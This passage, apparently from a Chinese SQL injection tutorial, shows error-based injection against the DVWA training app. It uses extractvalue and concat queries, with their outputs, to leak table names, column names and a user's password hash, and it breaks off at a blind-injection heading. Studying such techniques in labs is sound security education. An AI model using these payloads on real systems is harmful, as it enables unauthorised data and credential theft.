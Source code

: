 2️⃣ 获取表名

```sql
mysql> select first_name, last_name from users where user_id = 1 and extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='dvwa')));
ERROR 1105 (HY000): XPATH syntax error: '~guestbook,k_account,users'
```

3️⃣ 获取列名

```sql
mysql> select first_name, last_name from users where user_id = 1 and extractvalue(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')));
ERROR 1105 (HY000): XPATH syntax error: '~user_id,first_name,last_name,us'

# 🚫 这里的错误返回被截断了，我们改用 limit 条件来单独获取每一个列名

mysql> select first_name, last_name from users where user_id = 1 and extractvalue(1, concat(0x7e, (select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~user_id'

mysql> select first_name, last_name from users where user_id = 1 and extractvalue(1, concat(0x7e, (select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '~first_name'

……

# 🚫 另外一种方式是使用 substring 去继续获取剩余的字符串
mysql> select first_name, last_name from users where user_id = 1 and extractvalue(1, concat(0x7e, (select substring(group_concat(column_name), 30) from information_schema.columns where table_schema='dvwa' and table_name='users')));
ERROR 1105 (HY000): XPATH syntax error: '~user,password,avatar,last_login'
```

4️⃣ 获取账号密码

```sql
# 获取账号
mysql> select first_name, last_name from users where user_id = 1 and extractvalue(1, concat(0x7e, (select user_id from dvwa.users limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~1'

# 获取密码
mysql> select first_name, last_name from users where user_id = 1 and extractvalue(1, concat(0x7e, (select password from dvwa.users where user_id = 1 limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~5f4dcc3b5aa765d61d8327deb882cf9'
```



### 盲注

#### 布尔盲注

